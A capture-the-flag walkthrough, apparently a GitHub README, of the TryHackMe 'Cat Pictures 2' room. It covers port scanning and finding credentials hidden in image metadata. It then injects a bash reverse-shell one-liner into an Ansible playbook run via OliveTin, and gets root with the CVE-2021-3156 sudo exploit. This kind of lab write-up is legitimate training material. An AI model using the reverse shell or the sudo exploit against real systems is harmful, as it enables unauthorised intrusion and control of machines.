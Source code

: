 # Cat-picture---Tryhackme


Cat Pictures 2 Writeup
This is a walkthrough of the Cat Pictures 2 CTF from TryHackMe. The room can be accessed here.

Recon
I started by running an Nmap scan to identify open ports on the target machine:

nmap -sV -sC -p- <#TARGETIP> -o nmap
The scan revealed the following open ports:

22 - OpenSSH 7.6p1
80 - Nginx 1.4.6 (Lychee version 3.1.1 photo album with cat pictures)
222 - OpenSSH 9.0 (Unusual port)
1337 - OliveTin (Web interface to run predefined shell commands)
3000 - Gitea (Lightweight DevOps platform)
8080 - Nginx default webpage (Possibly with subdirectories)
Web Pages
I began exploring the web applications hosted on different ports:

Port 80: Found a Lychee photo album with cat pictures. App Screenshot

Port 1337: Discovered OliveTin, a web interface to execute scripts and run Ansible Playbooks.

App Screenshot

Port 3000: Accessed Gitea, a platform that might be hosting scripts and runbooks.

App Screenshot

Port 8080: Default Nginx webpage, further inspection may reveal subdirectories.

App Screenshot

After running gobuster and checking for vulnerabilities, nothing significant was found. So, I focused on the cat pictures hosted on port 80.

Cat Pictures Analysis
I downloaded all the cat pictures and checked them for exif data using exiftool. One picture revealed interesting information of a text file on a subdomain of one of the web applications:

App Screenshot

Visiting the URL led me to a text file with the following information:

App Screenshot

I managed to gain access to the website with the credentials from the text file and explored the user's repository, where I found flag1.txt (1/3 flags).

App Screenshot

Ansible Playbook
Next, I inspected the playbook.yaml file and noticed it contains a shell command: shell: echo hi.

App Screenshot

Knowing that OliveTin on port 1337 allows running Ansible Playbooks, I replaced the command with simple bash reverse shell payload from RevShells.com.

bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
Setting up a NetCat listener and clicking "Run Ansible Playbook" triggered the payload, which gave me a shell on the box. Exploring the user directory file gave me another text file named flag2.txt (2/3 flags).

App Screenshot

Privilege Escalation
With a reverse shell on the target machine, I looked around for interesting files and uploaded linpeas.sh to find vulnerabilities. One stood out: [CVE-2021-3156] sudo Baron Samedit.

App Screenshot

To exploit this, I downloaded the exploit, uploaded it to the target machine, compiled it with make, and executed the ./sudo-hax-me-a-sandwich outfile to gain root access.

App Screenshot

From here, I moved to the /root file directory and found the flag3.txt (3/3 flags).

Thanks for checking out my writeup! Feel free to reach out with any questions or comments.
